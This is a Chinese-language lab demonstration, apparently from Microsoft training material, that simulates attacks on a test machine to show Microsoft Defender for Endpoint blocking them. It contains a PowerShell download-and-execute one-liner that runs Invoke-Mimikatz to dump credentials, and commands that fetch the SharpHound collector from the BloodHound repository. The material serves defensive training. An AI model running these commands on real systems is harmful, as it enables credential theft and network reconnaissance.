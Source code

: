 # 模块 2 演示 - 使用 Microsoft Defender for Endpoint 缓解攻击

备注：能否成功完成本演示取决于是否完成[先决条件文档](00-prerequisites.md)中的所有步骤。

## 模拟攻击

在此任务中，你将运行两次模拟攻击，以探索 Microsoft Defender for Endpoint 的功能。

1. 如果尚未在浏览器中进入 Microsoft Defender XDR 门户，请转到 Microsoft Defender XDR (https://security.microsoft.com) 并以租户管理员身份登录。

你将使用 WIN1 上的 PowerShell 运行模拟攻击，以探索 Microsoft Defender for Endpoint 的功能******。

`Attack 1: Mimikatz - Credential Dumping`

1. 在 WIN1 计算机上，在搜索栏中键入“Command”，然后选择“以管理员身份运行”**********。

1. 在“管理员:**** 命令提示符”窗口中复制粘贴以下命令，然后按 Enter 键运行****。

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. 你应看到一条内容为“访问被拒绝”的消息，以及来自 `Microsoft Defender Antivirus, Windows Security Virus and threats protection` 的弹出消息，其中显示“发现威胁”****。

1. 通过键入“exit”并按 Enter 键，退出“管理员:**命令提示符”窗口**********。

`Attack 2: Bloodhound - Collection`

1. 在 WIN1 计算机上，在搜索栏中键入“PowerShell”，选择“Windows PowerShell”，然后选择“以管理员身份运行”**************。

1. 在“管理员:**** Windows PowerShell”窗口中复制并粘贴以下命令，然后按 Enter 键运行****。

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**注意：** 建议一次复制、粘贴和运行一个命令。 可以打开记事本并将命令复制到临时文件中以完成此操作**。 第一个命令在 Atomic Red Team 文件夹所在的同一文件夹中创建名为 ExternalPayloads 的文件夹****。 第二个命令从 BloodHound GitHub 存储库下载 SharpHound.ps1 文件，并将其保存在 ExternalPayloads 文件夹中******。

1. 应会看到来自 `Windows Security Virus and threats protection` 的弹出消息，其中显示“发现威胁”**。

1. 在“管理员:**** Windows PowerShell”窗口中复制并粘贴以下命令，然后按 Enter 键运行****。

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. 如果输出为“True”，则 Microsoft Defender 防病毒尚未删除恶意软件有效负载文件**。 如果输出为“False”，则 Microsoft Defender 防病毒已删除恶意软件有效负载文件**。 使用向上箭头键重复命令，直到输出为“False”**。

## 你已完成本演示
